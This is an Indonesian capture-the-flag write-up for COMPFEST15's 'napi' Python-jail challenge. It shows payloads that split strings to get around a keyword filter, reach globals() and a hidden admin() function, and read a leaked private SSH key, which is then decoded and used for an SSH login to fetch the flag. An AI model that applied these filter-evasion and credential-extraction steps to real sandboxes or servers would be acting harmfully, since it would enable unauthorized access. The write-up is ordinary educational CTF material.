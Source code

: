 # Writeup napi

Pertama, kita harus melihat apa saja yang ada di globals() menggunakan payload ini
```
print(__builtins__.__dict__['glo'+'bals']())
```

Hasilnya akan seperti ini.
```
john > print(__builtins__.__dict__['glo'+'bals']())
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x00000168AF5F4A60>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '\\\\wsl.localhost\\kali-linux\\home\\oka\\COMPFEST15\\napi\\src\\chall.py', '__cached__': None, 'password': <_io.TextIOWrapper name='creds.txt' mode='r' encoding='cp1252'>, 'main': <function main at 0x00000168AF65B2E0>, 'admin': <function admin at 0x00000168AF65B370>}
```

Kita akan menemukan function admin() dan sebuah object 'password' yang dimana isinya adalah file stream dari file password admin.

Setelah itu, kita harus mencari tahu argument apa saja yang dibutuhkan oleh function admin()

```
print(__builtins__.__dict__['glo'+'bals']()['ad'+'min'].__code__.co_varnames)
```

Payload itu akan menghasilkan ini.

```
john > print(__builtins__.__dict__['glo'+'bals']()['ad'+'min'].__code__.co_varnames)
('password_io', 'f')
```

Disini terlihat bahwa function admin membutuhkan sebuah 'password_io'. Maksudnya adalah file object yang sedang membuka password dari admin.

Dari sini, kita tinggal memanggil admin() dengan argument file object 'password' tadi.

```
__builtins__.__dict__['glo'+'bals']()['ad'+'min'](__builtins__.__dict__['glo'+'bals']()['pass'+'word'])
```

```
john > __builtins__.__dict__['glo'+'bals']()['ad'+'min'](__builtins__.__dict__['glo'+'bals']()['pass'+'word'])
Welcome admin!
Here's the flag:
--- IMPORTANT NOTICE ---

Dear admins, I have received information that a prisoner is trying to get access to the flag.
I have moved the flag somewhere safe.
I would advise you not to access the flag right now.
But if there is an urgent matter, login to admin@<ip-address>:6969 with your password as the SSH key to access the flag.
```

Terlihat bahwa flagnya tidak ada disini. Tapi, kita bisa login sebagai admin menggunakan SSH

Untuk mendapatkan SSH key, kita harus read file object password.

```
john > print(__builtins__.__dict__['glo'+'bals']()['pass'+'word'].read())
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFb3dJQkFBS0...
```

Kita harus decode ini menggunakan base64 dan menyimpan SSH keynya.

```
$ echo "LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFb3dJQkFBS0..." | base64 -d > ssh.key
```

Dari sini kita bisa login sebagai admin melalui SSH.

```
$ ssh -p 6969 -i ssh.key admin@<ip_address>
Welcome to PRISON ADMINISTRATOR SHELL
Last login: Thu Apr 27 01:47:34 2023 from 172.30.0.1
$ ls
flag.txt
$ cat flag.txt
COMPFEST15{clo5e_y0ur_f1LE_0bj3ctS_plZzz___THXx!!!_63bf937957}
```